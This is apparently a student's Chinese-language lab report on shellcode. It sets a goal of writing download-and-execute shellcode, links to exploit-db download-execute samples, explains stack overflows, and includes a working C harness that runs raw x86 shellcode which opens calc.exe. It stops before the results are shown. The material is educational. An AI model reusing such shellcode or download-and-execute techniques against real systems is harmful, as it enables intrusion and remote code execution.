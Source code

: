 # 实验六 shellcode

## **一、实验目的**
* 详细阅读 www.exploit-db.com 中的shellcode。建议找不同功能的，不同平台的 3-4个shellcode解读。
* 修改示例代码的shellcode，将其功能改为下载执行。也就是从网络中下载一个程序，然后运行下载的这个程序。提示：Windows系统中最简单的下载一个文件的API是 UrlDownlaodToFileA
   - 其中第二个作业，原参考代码只调用了一个API函数，作业要求调用更多的API函数了，其中涉及到的参数也更复杂，但是原理是相通的。URLDownloadToFileA函数在 Urlmon.dll 这个dll中，这个dll不是默认加载的，所以可能还需要调用LoadLibrary函数
   - [Windows/x64 - Download File (http://192.168.10.129/pl.exe) + Execute (C:/Users/Public/p.exe) Shellcode (358 bytes)](https://www.exploit-db.com/shellcodes/40821)
   - [Windows/x64 (XP) - Download File + Execute Shellcode Using Powershell (Generator)](https://www.exploit-db.com/shellcodes/36411) 

## **二、基础知识**
* 栈溢出漏洞，当向栈中的局部变量拷贝了超长的数据，覆盖了在局部变量的内存空间之后的函数返回地址。那么当函数返回的时候就会跳转到覆盖后新的地址
* 跳转到新的地址后，这一段新的地址的数据，如果是可执行的一段代码。那么这段代码就会被执行。攻击者通过这段代码来实现攻击之后的控制等等功能。
* 早期，黑客在攻击了一个系统以后，最常使用的控制方式是创建一个远程的shell，这要黑客就可以远程通过命令的方式控制目标计算机了。就像我们现在的ssh远程控制计算机一样。不过ssh是管理员主动开启的，黑客攻击后的shellcode是通过漏洞非法入侵后开启的。
* 由于早期的黑客攻击后通常是开启一个shell，所以这段在缓存区溢出以后跳转执行的一段代码，就被称为shellcode。

## **三、实验内容**
### 3.1 详细阅读 www.exploit-db.com 中的shellcode。建议找不同功能的，不同平台的 3-4个shellcode解读。

#### 【1】[Windows/x86 - Null-Free WinExec Calc.exe Shellcode](https://www.exploit-db.com/shellcodes/13828)

* 功能实现：打开计算器
```c
#include <windows.h>
#include <stdio.h>
char code[] = \
"\x89\xe5\x83\xec\x20\x31\xdb\x64\x8b\x5b\x30\x8b\x5b\x0c\x8b\x5b"
"\x1c\x8b\x1b\x8b\x1b\x8b\x43\x08\x89\x45\xfc\x8b\x58\x3c\x01\xc3"
"\x8b\x5b\x78\x01\xc3\x8b\x7b\x20\x01\xc7\x89\x7d\xf8\x8b\x4b\x24"
"\x01\xc1\x89\x4d\xf4\x8b\x53\x1c\x01\xc2\x89\x55\xf0\x8b\x53\x14"
"\x89\x55\xec\xeb\x32\x31\xc0\x8b\x55\xec\x8b\x7d\xf8\x8b\x75\x18"  "\x31\xc9\xfc\x8b\x3c\x87\x03\x7d\xfc\x66\x83\xc1\x08\xf3\xa6\x74"
"\x05\x40\x39\xd0\x72\xe4\x8b\x4d\xf4\x8b\x55\xf0\x66\x8b\x04\x41"
"\x8b\x04\x82\x03\x45\xfc\xc3\xba\x78\x78\x65\x63\xc1\xea\x08\x52"
"\x68\x57\x69\x6e\x45\x89\x65\x18\xe8\xb8\xff\xff\xff\x31\xc9\x51"
"\x68\x2e\x65\x78\x65\x68\x63\x61\x6c\x63\x89\xe3\x41\x51\x53\xff"
"\xd0\x31\xc9\xb9\x01\x65\x73\x73\xc1\xe9\x08\x51\x68\x50\x72\x6f"
"\x63\x68\x45\x78\x69\x74\x89\x65\x18\xe8\x87\xff\xff\xff\x31\xd2"
"\x52\xff\xd0";
  
int main(int argc, char** argv) //运行上面的code
{
   int (*func)();
    func = (int(*)()) code;
    (int)(*func)();
}
```
* 新建一个.c文件，执行以上代码，实验运行结果如下 ：